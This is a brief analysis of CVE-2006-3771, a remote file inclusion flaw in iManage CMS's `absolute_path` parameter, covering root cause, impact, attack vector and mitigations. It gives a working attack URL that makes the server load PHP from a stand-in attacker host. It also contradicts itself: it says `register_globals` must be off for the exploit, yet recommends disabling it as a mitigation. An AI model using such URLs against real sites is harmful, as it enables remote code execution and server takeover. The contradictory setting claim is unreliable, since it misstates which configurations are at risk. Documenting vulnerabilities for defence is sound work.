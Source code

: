 ### CVE-2006-3771 Analysis:

**Root cause of vulnerability:**
The vulnerability is caused by a lack of proper sanitization of the `absolute_path` parameter in the `component.php` file and other affected files. This parameter is used in an `include()` statement, allowing an attacker to specify a remote or local file path.

**Weaknesses/vulnerabilities present:**
- **Remote File Inclusion (RFI):** The application directly includes the content of a file specified by the attacker via the `absolute_path` parameter.

**Impact of exploitation:**
- **Arbitrary Code Execution:** By including a malicious file from a remote server controlled by the attacker, arbitrary PHP code can be executed on the vulnerable server. This can lead to full system compromise.

**Attack vectors:**
- **HTTP GET parameter:** The vulnerability is triggered by sending a crafted HTTP GET request to various PHP files of the iManage CMS, including a malicious URL in the `absolute_path` parameter, like `http://target.com/[path]/articles.php?absolute_path=http://attacker.com//inject.txt?`

**Required attacker capabilities/position:**
- The attacker needs to be able to send HTTP requests to the vulnerable server.
- The attacker needs to host a malicious PHP file on a server accessible to the vulnerable server.
- The `register_globals` setting needs to be off for the exploit to succeed.

**Additional Details:**

- The exploit affects multiple files within the iManage CMS, as detailed in the advisory.
- The advisory also suggests possible mitigations, such as disabling `register_globals` or properly sanitizing the `absolute_path` variable.